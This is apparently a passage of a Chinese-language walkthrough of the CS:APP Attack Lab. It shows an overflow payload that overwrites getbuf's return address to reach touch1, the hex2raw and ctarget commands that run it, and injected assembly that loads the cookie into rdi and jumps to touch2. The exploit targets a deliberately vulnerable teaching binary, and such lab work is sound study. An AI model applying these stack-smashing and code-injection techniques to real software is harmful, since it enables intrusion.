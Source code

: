 ```text
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00 
```

保存在touch1.txt里，并通过hex2raw转换为字符串。并执行程序。

```sh
./hex2raw <touch1.txt>2.txt 
./ctarget -qi 2.txt
```

![image-20210428160021166](https://www.kro1lsec.com:442/images/2021/04/28/20210428160021.png)

### **1.2level 2**

要求：要求程序执行完getbuf()后，执行touch2，而且还要传入参数，即你的cookie

小建议

- `touch2`的参数`val`是利用`rdi`寄存器进行传递的
- 你要利用某种方式让`getbuf`的返回地址为`touch2`的地址
- 你的注入代码的传入参数应该等于`cookie`的值。
- 不要在注入代码内调用`ret`或者`call`
- 请参见附录B中有关如何使用工具生成字节级表示形式的指令序列的讨论。

`touch2`的代码如下

```c
 void touch2(unsigned val)
 {
     vlevel = 2; /* Part of validation protocol */
     if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
     } else {
          printf("Misfire: You called touch2(0x%.8x)\n", val);
          fail(2);
    }
   exit(0);
 }
```

逻辑：比较我们传入的参数`val`是否等于`cookie`的值，如果等于就可以通过。

本题的关键就是在改变返回地址前也设置`rdi`寄存器的值。

插入的汇编代码

```text
movq    $0x59b997fa, %rdi
pushq   $0x4017ec
ret
```
